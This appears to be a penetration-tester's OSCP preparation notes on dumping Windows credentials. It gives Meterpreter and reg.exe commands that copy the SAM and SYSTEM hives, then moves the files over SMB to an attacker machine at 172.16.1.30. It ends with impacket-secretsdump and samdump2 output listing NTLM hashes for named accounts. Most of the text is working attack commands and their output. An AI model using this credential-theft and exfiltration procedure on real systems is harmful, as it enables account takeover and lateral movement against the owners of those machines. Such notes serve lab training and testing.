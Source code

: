 # Dumping Secrets

If we ever come across a windows.old, it's a good idea to extract the SAM & SYSTEM files.&#x20;

If we have privileged access we can make a copy of the SAM & SYSTEM registry files.

## Extracting SAM & SYSTEM with Metasploit

```
meterpreter > download "C:\windows.old\windows\System32\SAM"
[*] Downloading: C:\windows.old\windows\System32\SAM -> /home/kali/Documents/Prep/OSCP-A/MS02/SAM
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): C:\windows.old\windows\System32\SAM -> /home/kali/Documents/Prep/OSCP-A/MS02/SAM
[*] Completed  : C:\windows.old\windows\System32\SAM -> /home/kali/Documents/Prep/OSCP-A/MS02/SAM

```



```
meterpreter > download "C:\windows.old\windows\system32\SYSTEM"
[*] Downloading: C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 1.00 MiB of 11.10 MiB (9.01%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 2.00 MiB of 11.10 MiB (18.02%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 3.00 MiB of 11.10 MiB (27.03%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 4.00 MiB of 11.10 MiB (36.04%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 5.00 MiB of 11.10 MiB (45.05%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 6.00 MiB of 11.10 MiB (54.07%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 7.00 MiB of 11.10 MiB (63.08%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 8.00 MiB of 11.10 MiB (72.09%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 9.00 MiB of 11.10 MiB (81.1%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 10.00 MiB of 11.10 MiB (90.11%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 11.00 MiB of 11.10 MiB (99.12%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 11.10 MiB of 11.10 MiB (100.0%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Completed  : C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM

```



##

## Extracting SAM & SYSTEM with reg.exe

With elevated privileges we can create a copy of SAM & SYSTEM files from the registry with reg.exe

```
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

### Exfiltrate via SMB

We can start an SMB server on our kali box with impacket's smbserver and copy the files to our local machine

```shell-session
kali@kali$ impacket-smbserver share . -smb2support
```

### copy files to kali

```powershell
copy .\SAM \\172.16.1.30\share
copy .\SYSTEM \\172.16.1.30\share
```



## Extracting Hashes with secretsdump and samdump2



### impacket-secretsdump

```shell-session
└─$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
[*] Cleaning up... 
                                                                                                                                                      

```



### samdump2

```shell-session
└─$ samdump2 SYSTEM SAM         
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1004:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```
